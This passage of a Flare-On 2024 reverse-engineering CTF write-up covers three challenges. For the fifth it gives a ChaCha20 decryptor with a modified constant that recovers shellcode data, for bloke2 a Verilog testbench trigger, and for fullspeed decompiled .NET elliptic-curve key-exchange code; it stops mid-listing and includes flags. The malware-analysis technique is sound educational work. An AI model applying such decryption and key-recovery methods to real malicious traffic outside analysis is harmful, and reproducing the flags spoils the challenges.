QjY2ODUyRTg0QUQzRDlGNjBBOTdERkE0RDEwNjBCQ0RBNjMwNUIyQjg3NDQ0NDVENjlEM0FDQjg5NjZGMjgwODdEMkUzRDcyQjgzOTZEQ0JCMUM4QTc1M0I5OTg5QTlDQTk3QzlEQjc0QkE3NDk2OEE5QUQ2MDRFMjNBNjVGMjBCMTVENzcyRjAyMTAxQTkwNjMzQjQ4MUYyQUNDNkIxQ0NBOEI1NEVFNUI0RDVERkE5QThBRUM5OTZEODhFNUYxQzk0QUI4RDUyMTc4MEJCMUI5MEYwQTIyOTBGN0UyNUU5NzZGNDVENkVCNEUzQUZGODkyMzU4OTNCQTk4MzdGQzc4M0Q4OEY0RjNCRUQ4NDY3REY1RDYzM0M1OTBGRDgwODBBM0EyREJFOUIwQTNERkU1NkYxNTREMzAwRUE4MTdCMjAyODQ1RUFDMDZGMkM2RDdBMkMwQ0U5RkJCNTA0QzRBNEIxNTgzQjI2OUM0OENEOTkzQjREMDc2MkNCODM2QTFBMUJGQkY2MTRFOEYzQTlDNzEzOUUzMzZDRjRDN0VFMDc2MDRCNzY2NDZFOEJENTdCNjdDNzlDNUM0QTlENTNCMjdEMkM3NEQ4NEUxQUNEQzk0MkIxQTAyQjU2REZFMTVCREU2MzE2MTQ5M0I3OUQ2MTZBMUU1QUEzMzlFM0RBRTRGMUU2MjczOTBFODY5NEIyNjVCRkQ4RkRBQTgzREIzNzlCOEYzOTVCNkYzN0IzRjk4RDREOURCRkIyMzAyNEJENDVFREM1NjRFQzc5Njg5NjFFMUVCQzVDREU0NjFFMTkxOTFFMzlFNTJCQzdEQzA3RUM5QUZCQTU2N0Q4NDlCMEY0QjkxQzEwNjA0QTg0N0ZBMDc5RERGRkE5M0E5Njg0RDNCQzBDQjQ4Q0Q1QkZEQkQyMUI1RTUxNzczNjIzQUZGMjBCNEJDODAyQjI0MTM3MzhBQzBBNkM0NEY4NUE1ODQ0NjE0RTlDQTI5MkY1QzZCMkE1ODE4RDEyQTA2NkFBMkY5N0U0NDZDMjhDNDZBMDUxMEE0RTE4NDlEQjA4MjYzQjJEOEYxQ0Q0Q0NFMjNBNjBCQjVENTkwQjY4MTNERThENTAzRTE5MDU3QzcyREQ2NjgzQjFDQ0ZDMTIxMTI4MzBENTBCQjQ3QUUwNTQxMjVCOUY1RTk4QjNCQTdFMkU3NDQzNUQyQjBCQkFFMTU0NjJDMjYxQUNDODdCQUZENjg4Q0UzQzgwQzgwRDdCM0U4RDhGOTJGNUM4RDcxMjlEQThFQUQ2MDM4QjZCRTczRUJCN0FCQTI2M0VCNUUxNzU0NTU1MUE3NDUwMjVCNjdFMzY1QzlENjkxOEI5QjgxODlCOTQwRDhDMzNEQzlGNTkyMjQwM0EzOUREMjQ2NjM0NjA5NENCODI0RTBDNEEyRjRFNTUxQUJDOEMxMkZCMjI3MEQ2MUIwRjkyRDBFQUM5RTc0MzZGOUM1MDVFRTkwQzQ5MzYxRDk1RUQ4QTRFNTIzNjBEMDU2NzlDQzI3MTI5OTZCMTlFNDg4QzE4Q0NDNjE3Q0JFQTk4QzZCNkI4QTdBMzk1RUIxQzA3MUM2Rjc0OUU0NUM0MUFCNjREMTBDN0U4QUMwNUMwQjUxQTE3NTdBQjYwNzgwQkFDRTg5M0ZGNzA5ODI1QzI5MEYzMzIwNDQ1MjhGMEQxODA0OTYyNDhFRjQ0QTFGQ0NGMTY0REM1MERGMTMwNEFGMTJCNDM3MUVBQUVCOUMxNDAxQkQ1NTNFOTlGOTI1NTdFRTJBQzIwRjM4NzdERDcyNkUzRjk5Mzc5QjY5RTU3QTUzQjA1RDI2NTNBQTc2NEMyNkQxRjJGNUZFRUM3NEY3RUJDMEIzNkU0OTJEQTBGMUYwREI2QkU0OEMzQURCRDJDRUFCNTRBMzMwNUE1MjFEMkVFRjE0MDlERUMzNjc1RTdCNTUwNjM5QUM5MEE2RUY1MzIxNjRGMkY1NEVFMUExMzg4RkI2MzIzQTBGQzdFQjA1MzgzRTlFQUJFQzU0QjQyNjhENEM1MDFBNkQ4MTM2RkI2OTZFQkEzQUIwMUE4MDUwNzkwNEUxRDJGREM3MzA0REU3MEMxN0MyMjg5MjNENjJGOEVFNEM3MzMxQzUyRDU2MEVDQkE1RTU3RUQ3NUM4ODRDODgxQkYzQTZBRjk0MTk2ODI0OUZDQjFCQ0JGRUNFQkQ5OTUwRDVERUE2QkE1RkQ5MDBGMEYzM0RFNTdGMDAwQTEwMDYxMTE4NzMyRUYyRTA5RDI3NjMwNTc5Mzk1MTE5QUZENDk0RDBBNUU5NzA1RjdGQ0Q5RTMzMDNFMzk3NTFEM0EzREI0QzJDOUI0MUVDRjg3QzY4QjYzNUNCRjQ0QzY4Q0RENjAxNDlEOTYyRkE2MDZFNEY4RUE4ODY1MEREQUZBQTBFMDJENDcyQTBFNzYxOEJEMjMyMjdBQjNGMTlFNTIwNEEyOUIzMjQyQTVDQzk1RTQ0MjlCOUY5MTVFMEExRDY3MTYzNjc1RTI3MDUxOUE0Qjk4NjE0NDdCNEY4MDMyQTQ2NkU4ODc0QTI3REU5OTRGRTYwOUM4M0JENjRDNjRDMTlEMjk3MkNCNUQ4QzQzNkM1Mzc0NkU1QUI0NzI2NTZBRUFGOTNGM0MwOEFCRkYxRDUzQkVGNDEyREU2MDQwMDc0NDVFMUZCRDM4QTlBN0ZCMUUxQjU5MEI0QjQ1RTg5MkMzMzdCNENBN0IzNUM0ODQyNDQ2ODQ3OEFDOEZEN0FEOTQxQjE3MEY2RDUzNzQ5Q0M1NTU4NDVCREEzNTRGQUYyRUQ0NzFDNDdFNjM5RDk5REY4NTI2MDUxMzM0NEQ2MjcwRTExNzRENDQ3MDQ2NTA2NEMyRjBFOTNEREFGQUMyMEFDMjBERjk0NTA2NzQ2QjEyQTRFMkQ1QTk0QjY0RDUzNEMyREU4MTVFQzBGQjI5NTEzOUNGMkFBMDdDODUxMkYzMjY0NkU5RTNFRTc2NjU4NkRENTUzRjBCNkY5RkY2Qzk5OEI0MURDMTE0NkQ2QzlDNEM3QUE0NjcxNzUzMDY1NjQ0NUQxOTk2QjY5RDY1M0FERDM3NjQzMjgwNjU3MTU0Nzg5Q0RENUM2NEE4QTFGMkY5MjQ3NEI1MjI5QzNGODkwOEVBNTBBRjY5RUNFQzU4MEE0MEY3NjYwMURCRUU2RTg5Mzc1MzY5QzIwNjg2MkI1MkFCOUEwMjI5ODNCNjIwQjU4QjZFMTNEREZENkVBNTVBQ0EyOUExOTZGRTA3NzYxQzdENDUyMjlCMzY5OTU1NUU5MjA0QTBFOTdFNENDQzA0M0E4NzI0NENCMzREMjA0MDZFNDQ4MzJEOTg5QkIxMjFGOTZFOTQ5REYxRkQ4ODE5REE2MDAzRTM5ODg1QUNFNDY2RDEwNjFGNDkzMDAxOTAwMEMxNUFENjlFOTE4MzgwMENENjQxRDYxMDA4QkRBQzQxN0ZFNjBCNEQ3NDE3RTQ5NzRDMzk0QzEwQjhFODQyNDYwRDRGMDFDMjUzQkFBQjU5RThDNTdDN0ZCMDlGMzE4N0VENkQyNTNDNjkwODg4RjAzMUE1QkZERERDNDMxOEI0MkE5NDhDM0FDQTk1RjE3QzhFQkQ5NTA3RTE3ODkwQkVCQUNEQUJFRUMxQjJEOTUyNUZDNTkxNEQzRDRBN0IxREIyN0IxNzM3QkRFNzAxMjA2OUM4MkM0NDA4QUIzNDBDOTlDRDJGODRBMEEzRUM0RUU5NUEwQzc0NzBCMUI3RkJENjJBMzNCOUQzOENDRjcxOEQwMjYzQ0IzNEMxRUQ4QkE1QjcyQkY3MjIyN0RGQzk3MDQ2RTU3REIyQ0Y4MDRDM0ExMzdERjlCNzhGNzYwNkE1MTY5QjdCNjhBQUY0MzhFQjMwREZEMjE3MTZFRUE5NkE1NEI2RDVEN0RERThCNkI0QjlGODUwMDQ3MzcxM0MzNjA3QkE5NzMxMUI5NUQ1MjFBNjBDNDVGRjY4RjBEQkMwMDE5QzNDQThBMEUxQzgyNENCQzA3MzNCMkI5QjY3Q0U0OEEwM0IyM0UzRDAzQjJENjBBMjREMTcxRkUxM0FGMjZBNDRBN0JFNEVDNEE5RDdFQ0I5QUM4NzgxMTMzQTAxMzcyNUZBQTY1MTEwMDFGNTBFQjhENzlBQTRFMDUyQjY2OUMwODY5NzNFRjQyNkQ2NkFGMEM0RDM2ODZBMEQxMkU1QzA1NUE0OEZFRkVGNzkx) to decrypt the shellcode.


Note the capital `K` here.

Then browse the stack according to calculated offsets to find received keys and encrypted file content.




Decrypt to find the flag.

```c
/*
 *  Copyright (C) 2024 Rong "Mantle" Bao
 * 
 *  This script uses <https://github.com/marcizhu/ChaCha20/>.
 *
 *  Copyright (C) 2022 Marc Izquierdo
 *
 *  Permission is hereby granted, free of charge, to any person obtaining a
 *  copy of this software and associated documentation files (the "Software"),
 *  to deal in the Software without restriction, including without limitation
 *  the rights to use, copy, modify, merge, publish, distribute, sublicense,
 *  and/or sell copies of the Software, and to permit persons to whom the
 *  Software is furnished to do so, subject to the following conditions:
 *
 *  The above copyright notice and this permission notice shall be included in
 *  all copies or substantial portions of the Software.
 *
 *  THE SOFTWARE IS PROVIDED "AS IS", WITHOUT WARRANTY OF ANY KIND, EXPRESS OR
 *  IMPLIED, INCLUDING BUT NOT LIMITED TO THE WARRANTIES OF MERCHANTABILITY,
 *  FITNESS FOR A PARTICULAR PURPOSE AND NONINFRINGEMENT. IN NO EVENT SHALL THE
 *  AUTHORS OR COPYRIGHT HOLDERS BE LIABLE FOR ANY CLAIM, DAMAGES OR OTHER
 *  LIABILITY, WHETHER IN AN ACTION OF CONTRACT, TORT OR OTHERWISE, ARISING
 *  FROM, OUT OF OR IN CONNECTION WITH THE SOFTWARE OR THE USE OR OTHER
 *  DEALINGS IN THE SOFTWARE.
 */

#include <assert.h>
#include <stddef.h>
#include <stdint.h>
#include <stdio.h>

typedef uint8_t key256_t[32];
typedef uint8_t nonce96_t[12];

typedef struct {
    uint32_t state[4 * 4];
} ChaCha20_Ctx;

// Note the changed constant
#define CHACHA20_CONSTANT "expand 32-byte K"
#define CHACHA20_ROTL(x, n) (((x) << (n)) | ((x) >> (32 - (n))))
#define CHACHA20_QR(a, b, c, d)   \
    a += b;                       \
    d = CHACHA20_ROTL(d ^ a, 16); \
    c += d;                       \
    b = CHACHA20_ROTL(b ^ c, 12); \
    a += b;                       \
    d = CHACHA20_ROTL(d ^ a, 8);  \
    c += d;                       \
    b = CHACHA20_ROTL(b ^ c, 7)

static uint32_t pack4(const uint8_t* a) {
    uint32_t res = (uint32_t)a[0] << 0 * 8 | (uint32_t)a[1] << 1 * 8 |
                   (uint32_t)a[2] << 2 * 8 | (uint32_t)a[3] << 3 * 8;

    return res;
}

static void ChaCha20_block_next(const uint32_t in[16], uint32_t out[16],
                                uint8_t** keystream) {
    for (int i = 0; i < 4 * 4; i++) out[i] = in[i];

    // Round 1/10
    CHACHA20_QR(out[0], out[4], out[8], out[12]);   // Column 0
    CHACHA20_QR(out[1], out[5], out[9], out[13]);   // Column 1
    CHACHA20_QR(out[2], out[6], out[10], out[14]);  // Column 2
    CHACHA20_QR(out[3], out[7], out[11], out[15]);  // Column 3
    CHACHA20_QR(out[0], out[5], out[10],
                out[15]);  // Diagonal 1 (main diagonal)
    CHACHA20_QR(out[1], out[6], out[11], out[12]);  // Diagonal 2
    CHACHA20_QR(out[2], out[7], out[8], out[13]);   // Diagonal 3
    CHACHA20_QR(out[3], out[4], out[9], out[14]);   // Diagonal 4

    // Round 2/10
    CHACHA20_QR(out[0], out[4], out[8], out[12]);
    CHACHA20_QR(out[1], out[5], out[9], out[13]);
    CHACHA20_QR(out[2], out[6], out[10], out[14]);
    CHACHA20_QR(out[3], out[7], out[11], out[15]);
    CHACHA20_QR(out[0], out[5], out[10], out[15]);
    CHACHA20_QR(out[1], out[6], out[11], out[12]);
    CHACHA20_QR(out[2], out[7], out[8], out[13]);
    CHACHA20_QR(out[3], out[4], out[9], out[14]);

    // Round 3/10
    CHACHA20_QR(out[0], out[4], out[8], out[12]);
    CHACHA20_QR(out[1], out[5], out[9], out[13]);
    CHACHA20_QR(out[2], out[6], out[10], out[14]);
    CHACHA20_QR(out[3], out[7], out[11], out[15]);
    CHACHA20_QR(out[0], out[5], out[10], out[15]);
    CHACHA20_QR(out[1], out[6], out[11], out[12]);
    CHACHA20_QR(out[2], out[7], out[8], out[13]);
    CHACHA20_QR(out[3], out[4], out[9], out[14]);

    // Round 4/10
    CHACHA20_QR(out[0], out[4], out[8], out[12]);
    CHACHA20_QR(out[1], out[5], out[9], out[13]);
    CHACHA20_QR(out[2], out[6], out[10], out[14]);
    CHACHA20_QR(out[3], out[7], out[11], out[15]);
    CHACHA20_QR(out[0], out[5], out[10], out[15]);
    CHACHA20_QR(out[1], out[6], out[11], out[12]);
    CHACHA20_QR(out[2], out[7], out[8], out[13]);
    CHACHA20_QR(out[3], out[4], out[9], out[14]);

    // Round 5/10
    CHACHA20_QR(out[0], out[4], out[8], out[12]);
    CHACHA20_QR(out[1], out[5], out[9], out[13]);
    CHACHA20_QR(out[2], out[6], out[10], out[14]);
    CHACHA20_QR(out[3], out[7], out[11], out[15]);
    CHACHA20_QR(out[0], out[5], out[10], out[15]);
    CHACHA20_QR(out[1], out[6], out[11], out[12]);
    CHACHA20_QR(out[2], out[7], out[8], out[13]);
    CHACHA20_QR(out[3], out[4], out[9], out[14]);

    // Round 6/10
    CHACHA20_QR(out[0], out[4], out[8], out[12]);
    CHACHA20_QR(out[1], out[5], out[9], out[13]);
    CHACHA20_QR(out[2], out[6], out[10], out[14]);
    CHACHA20_QR(out[3], out[7], out[11], out[15]);
    CHACHA20_QR(out[0], out[5], out[10], out[15]);
    CHACHA20_QR(out[1], out[6], out[11], out[12]);
    CHACHA20_QR(out[2], out[7], out[8], out[13]);
    CHACHA20_QR(out[3], out[4], out[9], out[14]);

    // Round 7/10
    CHACHA20_QR(out[0], out[4], out[8], out[12]);
    CHACHA20_QR(out[1], out[5], out[9], out[13]);
    CHACHA20_QR(out[2], out[6], out[10], out[14]);
    CHACHA20_QR(out[3], out[7], out[11], out[15]);
    CHACHA20_QR(out[0], out[5], out[10], out[15]);
    CHACHA20_QR(out[1], out[6], out[11], out[12]);
    CHACHA20_QR(out[2], out[7], out[8], out[13]);
    CHACHA20_QR(out[3], out[4], out[9], out[14]);

    // Round 8/10
    CHACHA20_QR(out[0], out[4], out[8], out[12]);
    CHACHA20_QR(out[1], out[5], out[9], out[13]);
    CHACHA20_QR(out[2], out[6], out[10], out[14]);
    CHACHA20_QR(out[3], out[7], out[11], out[15]);
    CHACHA20_QR(out[0], out[5], out[10], out[15]);
    CHACHA20_QR(out[1], out[6], out[11], out[12]);
    CHACHA20_QR(out[2], out[7], out[8], out[13]);
    CHACHA20_QR(out[3], out[4], out[9], out[14]);

    // Round 9/10
    CHACHA20_QR(out[0], out[4], out[8], out[12]);
    CHACHA20_QR(out[1], out[5], out[9], out[13]);
    CHACHA20_QR(out[2], out[6], out[10], out[14]);
    CHACHA20_QR(out[3], out[7], out[11], out[15]);
    CHACHA20_QR(out[0], out[5], out[10], out[15]);
    CHACHA20_QR(out[1], out[6], out[11], out[12]);
    CHACHA20_QR(out[2], out[7], out[8], out[13]);
    CHACHA20_QR(out[3], out[4], out[9], out[14]);

    // Round 10/10
    CHACHA20_QR(out[0], out[4], out[8], out[12]);
    CHACHA20_QR(out[1], out[5], out[9], out[13]);
    CHACHA20_QR(out[2], out[6], out[10], out[14]);
    CHACHA20_QR(out[3], out[7], out[11], out[15]);
    CHACHA20_QR(out[0], out[5], out[10], out[15]);
    CHACHA20_QR(out[1], out[6], out[11], out[12]);
    CHACHA20_QR(out[2], out[7], out[8], out[13]);
    CHACHA20_QR(out[3], out[4], out[9], out[14]);

    for (int i = 0; i < 4 * 4; i++) out[i] += in[i];

    if (keystream != NULL) *keystream = (uint8_t*)out;
}

void ChaCha20_init(ChaCha20_Ctx* ctx, const key256_t key, const nonce96_t nonce,
                   uint32_t count) {
    ctx->state[0] = pack4((const uint8_t*)CHACHA20_CONSTANT + 0 * 4);
    ctx->state[1] = pack4((const uint8_t*)CHACHA20_CONSTANT + 1 * 4);
    ctx->state[2] = pack4((const uint8_t*)CHACHA20_CONSTANT + 2 * 4);
    ctx->state[3] = pack4((const uint8_t*)CHACHA20_CONSTANT + 3 * 4);
    ctx->state[4] = pack4(key + 0 * 4);
    ctx->state[5] = pack4(key + 1 * 4);
    ctx->state[6] = pack4(key + 2 * 4);
    ctx->state[7] = pack4(key + 3 * 4);
    ctx->state[8] = pack4(key + 4 * 4);
    ctx->state[9] = pack4(key + 5 * 4);
    ctx->state[10] = pack4(key + 6 * 4);
    ctx->state[11] = pack4(key + 7 * 4);
    ctx->state[12] = count;
    ctx->state[13] = pack4(nonce + 0 * 4);
    ctx->state[14] = pack4(nonce + 1 * 4);
    ctx->state[15] = pack4(nonce + 2 * 4);
}

void ChaCha20_xor(ChaCha20_Ctx* ctx, uint8_t* buffer, size_t bufflen) {
    uint32_t tmp[4 * 4];
    uint8_t* keystream = NULL;

    for (size_t i = 0; i < bufflen; i += 64) {
        ChaCha20_block_next(ctx->state, tmp, &keystream);
        ctx->state[12]++;

        if (ctx->state[12] == 0) {
            ctx->state[13]++;
            assert(ctx->state[13] != 0);
        }

        for (size_t j = i; j < i + 64; j++) {
            if (j >= bufflen) break;

            buffer[j] = buffer[j] ^ keystream[j - i];
        }
    }
}

int main(void) {
    static key256_t key = {0x8d, 0xec, 0x91, 0x12, 0xeb, 0x76, 0x0e, 0xda,
                           0x7c, 0x7d, 0x87, 0xa4, 0x43, 0x27, 0x1c, 0x35,
                           0xd9, 0xe0, 0xcb, 0x87, 0x89, 0x93, 0xb4, 0xd9,
                           0x04, 0xae, 0xf9, 0x34, 0xfa, 0x21, 0x66, 0xd7};

    static nonce96_t nonce = {0x11, 0x11, 0x11, 0x11, 0x11, 0x11,
                              0x11, 0x11, 0x11, 0x11, 0x11, 0x11};

    uint32_t count = 0;

    static uint8_t data[] = {0xa9, 0xf6, 0x34, 0x08, 0x42, 0x2a, 0x9e, 0x1c,
                             0x0c, 0x03, 0xa8, 0x08, 0x94, 0x70, 0xbb, 0x8d,
                             0xaa, 0xdc, 0x6d, 0x7b, 0x24, 0xff, 0x7f, 0x24,
                             0x7c, 0xda, 0x83, 0x9e, 0x92, 0xf7, 0x07, 0x1d};

    ChaCha20_Ctx ctx;
    ChaCha20_init(&ctx, key, nonce, count);
    ChaCha20_xor(&ctx, data, sizeof(data));
    for (size_t i = 0; i < sizeof data; i++) {
        putchar(data[i]);
    }
    return 0;
}
```

`supp1y_cha1n_sund4y@flare-on.com`

## 6 - bloke2

> You've been so helpful lately, and that was very good work you did. Yes, I'm going to put it right here, on the refrigerator, very good job indeed. You're the perfect person to help me with another issue that come up. One of our lab researchers has mysteriously disappeared. He was working on the prototype for a hashing IP block that worked very much like, but not identically to, the common Blake2 hash family. Last we heard from him, he was working on the testbenches for the unit. One of his labmates swears she knew of a secret message that could be extracted with the testbenches, but she couldn't quite recall how to trigger it. Maybe you could help?
> 7zip archive password: flare

Verilog is [nothing](https://github.com/CSharperMantle/ics2023) [new](https://github.com/CSharperMantle/ysyxSoC) to me, so solving this challenge took little. However, a hex constant sticking out in any source code would be obvious to careful analyists, so the problem would reduce to how exactly can we trigger the correct state.

It is not difficult to spot a test flag which is loaded while asserting both `finish` and `start`.

```verilog
    always @(posedge clk) begin
        if (rst | start) begin
            ...
            tst <= finish;
        end else begin
            ...
        end
    end

    localparam TEST_VAL = 512'h3c9cf0addf2e45ef548b011f736cc99144bdfee0d69df4090c8a39c520e18ec3bdc1277aad1706f756affca41178dac066e4beb8ab7dd2d1402c4d624aaabe40;
 
    always @(posedge clk) begin
        if (rst) begin
            ...
        end else begin
                ...
                h <= h_in ^ (TEST_VAL & {(W*16){tst}});
        end
    end
```

```verilog
        start <= 1'b1;
        finish <= 1'b1;
        @(posedge clk);
        start <= 1'b0;
        finish <= 1'b0;
```

`please_send_help_i_am_trapped_in_a_ctf_flag_factory@flare-on.com`

## 7 - fullspeed

> Has this all been far too easy? Where's the math? Where's the science? Where's the, I don't know.... cryptography? Well we don't know about any of that, but here is a little .NET binary to chew on while you discuss career changes with your life coach.
> 7zip archive password: flare

This is a RE challenge with a crypto filling, yet the attack here does not require a lot of maths or reasoning. Symbol recovery is done via compiling a [BouncyCastle](https://github.com/bcgit/bc-csharp) .NET 8 AOT program then [BinDiff](https://github.com/google/bindiff)-ing it with the handout binary. Afterwards, finding the exploitable properties of the given curve is rudimentary.

```c
void init_statics()
{
  // [COLLAPSED LOCAL DECLARATIONS. PRESS KEYPAD CTRL-"+" TO EXPAND]

  curve_q = RhpNewFast(&unk_14015B268);
  s_q = dec_str(&STR_Q);
  BouncyCastle_Cryptography_Org_BouncyCastle_Math_BigInteger___ctor_1(curve_q, (__int64)s_q, 16);
  curve_a = RhpNewFast(&unk_14015B268);
  s_a = dec_str(&STR_A);
  BouncyCastle_Cryptography_Org_BouncyCastle_Math_BigInteger___ctor_1(curve_a, (__int64)s_a, 16);
  curve_b = RhpNewFast(&unk_14015B268);
  s_b = dec_str(&STR_B);
  BouncyCastle_Cryptography_Org_BouncyCastle_Math_BigInteger___ctor_1(curve_b, (__int64)s_b, 16);
  gen_x = RhpNewFast(&unk_14015B268);
  v7 = dec_str(&STR_GEN_X);
  BouncyCastle_Cryptography_Org_BouncyCastle_Math_BigInteger___ctor_1(gen_x, (__int64)v7, 16);
  gen_y = RhpNewFast(&unk_14015B268);
  v9 = dec_str(&STR_GEN_Y);
  BouncyCastle_Cryptography_Org_BouncyCastle_Math_BigInteger___ctor_1(gen_y, (__int64)v9, 16);
  curve = RhpNewFast(&unk_14015B618);
  BouncyCastle_Cryptography_Org_BouncyCastle_Math_EC_FpCurve___ctor_1(curve, curve_q, curve_a, curve_b, 0i64, 0i64, 0);
  if ( qword_140158FC0[-1] )
    _GetGCStaticBase_System_Net_Sockets_System_Net_Sockets_SocketsTelemetry();
  v11 = glb_obj_state;
  RhpAssignRefAVLocation(&glb_obj_state->curve, curve);
  gen = (*(__int64 (__fastcall **)(void *, __int64, __int64))(*(_QWORD *)v11->curve
                                                            + 88i64))(
          v11->curve,
          gen_x,                                // __int64 __fastcall BouncyCastle_Cryptography_Org_BouncyCastle_Math_EC_ECCurve__CreatePoint(__int64 *a1, __int64 a2, __int64 a3)
          gen_y);
  RhpAssignRefAVLocation(&v11->gen, gen);
  sys_random = RhpNewFast(&unk_14015B188);
  Prng = BouncyCastle_Cryptography_Org_BouncyCastle_Security_SecureRandom__CreatePrng(&qword_140149B98, 1i64);
  S_P_CoreLib_System_Random___ctor_0(sys_random, 0i64);
  RhpAssignRefAVLocation((void **)(sys_random + 16), Prng);
  RhpAssignRefAVLocation(&v11->prng, sys_random);
}

void __stdcall do_kex()
{
  // [COLLAPSED LOCAL DECLARATIONS. PRESS KEYPAD CTRL-"+" TO EXPAND]

  memset(bufs, 0, sizeof(bufs));
  if ( qword_140158FC0[-1] )
    _GetGCStaticBase_System_Net_Sockets_System_Net_Sockets_SocketsTelemetry();
  objs = glb_obj_state;
  bigint_0x13371337 = RhpNewFast(&unk_14015B268);
  str_13371337 = dec_str(&qword_14013E9F8);
  BouncyCastle_Cryptography_Org_BouncyCastle_Math_BigInteger___ctor_1(bigint_0x13371337, (__int64)str_13371337, 16);
  if ( !objs->gen || !objs->socket_stream )
  {
    v42 = RhpNewFast(&unk_140160BA8);
    str_null = dec_str(&qword_14013FF20);
    S_P_CoreLib_System_InvalidOperationException___ctor_0(v42, (unsigned __int64)str_null);
    RhpThrowEx(v42);
  }
  privkey = get_privkey(128);
  v4 = (*(__int64 (__fastcall **)(void *, __int64))(*(_QWORD *)objs->gen + 224i64))(objs->gen, privkey);// __int64 BouncyCastle_Cryptography_Org_BouncyCastle_Math_EC_ECPointBase__Multiply(__int64 a1, __int64 a2)
  v5 = (*(__int64 (__fastcall **)(__int64))(*(_QWORD *)v4 + 136i64))(v4);// __int64 __fastcall BouncyCastle_Cryptography_Org_BouncyCastle_Math_EC_ECPoint__Normalize(_QWORD *a1)
  P = v5;
  if ( *(_QWORD *)(v5 + 16) )
    v7 = 0;
  else
    v7 = *(_QWORD *)(v5 + 24) == 0i64;
  if ( v7 )
  {
    v44 = RhpNewFast(&unk_140160BA8);
    str_inf = dec_str(&qword_14013FF48);
    S_P_CoreLib_System_InvalidOperationException___ctor_0(v44, (unsigned __int64)str_inf);
    RhpThrowEx(v44);
  }
  buf_0x30 = RhpNewArray(word_14018B688, 0x30ui64);
  v9 = (*(__int64 (__fastcall **)(__int64))(*(_QWORD *)P + 80i64))(P);// AffineXCoord?
  Px = (*(__int64 (__fastcall **)(__int64))(*(_QWORD *)v9 + 48i64))(v9);
  v11 = BouncyCastle_Cryptography_Org_BouncyCastle_Math_BigInteger__Xor(Px, bigint_0x13371337);
  bufs[1].data = (void *)(buf_0x30 + 16);
  bufs[1].size = 48;
  BouncyCastle_Cryptography_Org_BouncyCastle_Math_BigInteger__ToByteArray_2((__int64)v11, 1, (__int64)&bufs[1]);
  socket_stream = objs->socket_stream;
  bufs[0].data = (void *)(buf_0x30 + 16);
  bufs[0].size = 48;
  System_Net_Sockets_System_Net_Sockets_NetworkStream__Write_0(socket_stream, bufs);
  v13 = (*(__int64 (__fastcall **)(__int64))(*(_QWORD *)P + 88i64))(P);// AffineYCoord?
  Py = (*(__int64 (__fastcall **)(__int64))(*(_QWORD *)v13 + 48i64))(v13);
  v15 = BouncyCastle_Cryptography_Org_BouncyCastle_Math_BigInteger__Xor(Py, bigint_0x13371337);
  bufs[1].data = (void *)(buf_0x30 + 16);
  bufs[1].size = 48;
  BouncyCastle_Cryptography_Org_BouncyCastle_Math_BigInteger__ToByteArray_2((__int64)v15, 1, (__int64)&bufs[1]);
  v16 = objs->socket_stream;
  bufs[0].data = (void *)(buf_0x30 + 16);
  bufs[0].size = 48;
  System_Net_Sockets_System_Net_Sockets_NetworkStream__Write_0(v16, bufs);
  v17 = objs->socket_stream;
  bufs[1].data = (void *)(buf_0x30 + 16);
  bufs[1].size = 48;
  System_Net_Sockets_System_Net_Sockets_NetworkStream__Read_0((__int64)v17, (__int64)&bufs[1]);
  v18 = RhpNewFast(&unk_14015B268);
  if ( *(&qword_140158AC8 - 1) )
    _GetGCStaticBase_BouncyCastle_Cryptography_Org_BouncyCastle_Math_BigInteger();
  BouncyCastle_Cryptography_Org_BouncyCastle_Math_BigInteger___ctor_9(v18, 1, buf_0x30, 0, 0x30u, 1);
  M1x = BouncyCastle_Cryptography_Org_BouncyCastle_Math_BigInteger__Xor(v18, bigint_0x13371337);
  v20 = objs->socket_stream;
  bufs[1].data = (void *)(buf_0x30 + 16);
  bufs[1].size = 48;
  System_Net_Sockets_System_Net_Sockets_NetworkStream__Read_0((__int64)v20, (__int64)&bufs[1]);
  v21 = RhpNewFast(&unk_14015B268);
  BouncyCastle_Cryptography_Org_BouncyCastle_Math_BigInteger___ctor_9(v21, 1, buf_0x30, 0, 48u, 1);
  M1y = BouncyCastle_Cryptography_Org_BouncyCastle_Math_BigInteger__Xor(v21, bigint_0x13371337);
  v23 = (*(__int64 (__fastcall **)(void *, uint32_t *, uint32_t *))(*(_QWORD *)objs->curve + 80i64))(
          objs->curve,
          M1x,
          M1y);                                 // __int64 __fastcall BouncyCastle_Cryptography_Org_BouncyCastle_Math_EC_ECCurve__ValidatePoint(__int64 a1)
  v24 = (*(__int64 (__fastcall **)(__int64, __int64))(*(_QWORD *)v23 + 224i64))(v23, privkey);// __int64 __fastcall BouncyCastle_Cryptography_Org_BouncyCastle_Math_EC_ECPointBase__Multiply(__int64 a1, __int64 a2)
  v25 = (*(__int64 (__fastcall **)(__int64))(*(_QWORD *)v24 + 136i64))(v24);// Normalize
  M1 = v25;
  if ( *(_QWORD *)(v25 + 16) )
    v27 = 0;
  else
    v27 = *(_QWORD *)(v25 + 24) == 0i64;
  if ( v27 )
  {
    v46 = RhpNewFast(&unk_140160BA8);
    str_inf_1 = dec_str(&qword_14013FF48);
    S_P_CoreLib_System_InvalidOperationException___ctor_0(v46, (unsigned __int64)str_inf_1);
    RhpThrowEx(v46);
  }
  v28 = (*(__int64 (__fastcall **)(__int64))(*(_QWORD *)M1 + 80i64))(M1);// AffineXCoord
  Mx = (*(__int64 (__fastcall **)(__int64))(*(_QWORD *)v28 + 48i64))(v28);
  bufs[1].data = (void *)(buf_0x30 + 16);
  bufs[1].size = 48;
  BouncyCastle_Cryptography_Org_BouncyCastle_Math_BigInteger__ToByteArray_2(Mx, 1, (__int64)&bufs[1]);
  v30 = (void *)System_Security_Cryptography_System_Security_Cryptography_SHA512__HashData(buf_0x30);
  if ( v30 )
  {
    keybuf = (char *)v30 + 16;
    keylen = *((unsigned int *)v30 + 2);
  }
  else
  {
    keybuf = 0i64;
    keylen = 0i64;
  }
  if ( (unsigned int)keylen < 40 )
    S_P_CoreLib_System_ThrowHelper__ThrowArgumentOutOfRangeException(keylen);
  v33 = (void *)RhpNewFast(&unk_14015C6C0);
  if ( *(&qword_140158AF8 - 1) )
    sub_1400010AE();                            // void __fastcall BouncyCastle_Cryptography_Org_BouncyCastle_Crypto_Engines_Salsa20Engine___cctor(__int64 a1, __int64 a2)
  BouncyCastle_Cryptography_Org_BouncyCastle_Crypto_Engines_ChaChaEngine___ctor_0(v33, qword_140158AF8);
  RhpAssignRefAVLocation(&objs->chacha, (unsigned __int64)v33);
  ptr_key = RhpNewFast(&unk_14015C5B8);
  key = RhpNewArray(word_14018B688, 0x20ui64);
  v36 = *((_OWORD *)keybuf + 1);
  *(_OWORD *)(key + 16) = *(_OWORD *)keybuf;
